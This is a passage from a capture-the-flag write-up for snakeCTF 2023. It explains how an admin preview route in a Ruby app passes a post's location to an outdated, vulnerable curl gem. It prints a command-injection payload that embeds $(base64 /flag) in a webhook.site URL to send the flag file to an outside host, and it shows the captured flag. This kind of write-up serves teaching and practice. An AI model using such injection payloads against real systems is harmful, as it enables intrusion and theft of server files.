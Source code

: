 ```ruby
    end
```

This function is called when **an admin user requests the preview route of the post**. (Figure 6)

```ruby
  def preview
    cat_exists?
    @kitten = Cat.find(params[:id])
    @image_url = @kitten.location
    
    return unless is_admin?
    @processed_data = process_image(@image_url)
  end
```

##### Third vulnerability: Command injection due to lack of input sanitization
It turns out that the `curl` gem used in `Gemfile.lock` is [outdated and vulnerable to command injection due to lack of input sanitization. ](https://github.com/advisories/GHSA-hxx6-p24v-wg8c)

```
[...]
    curl (0.0.9)
[...]
```

So we can easily exploit this by creating a 'cat' (post) with the following location:  (Figure 15)

`https://webhook.site/6c872784-a208-4a97-816f-f8bda206acbe/$(base64 /flag)`

{{< image src="/img/snakeCTF2023/flag_post.png" >}}
**Figure 15**: Location exploit

Then, when we visit the preview, we trigger an error in the backend, but we got a request with the flag at the provided URL. (Figure 16)

{{< image src="/img/snakeCTF2023/webhook.png" >}}
**Figure 16**: Received flag request

After decoding the base64, we have the flag

> snakeCTF{I_th0ugh7_it_w4s_4_k1tten}
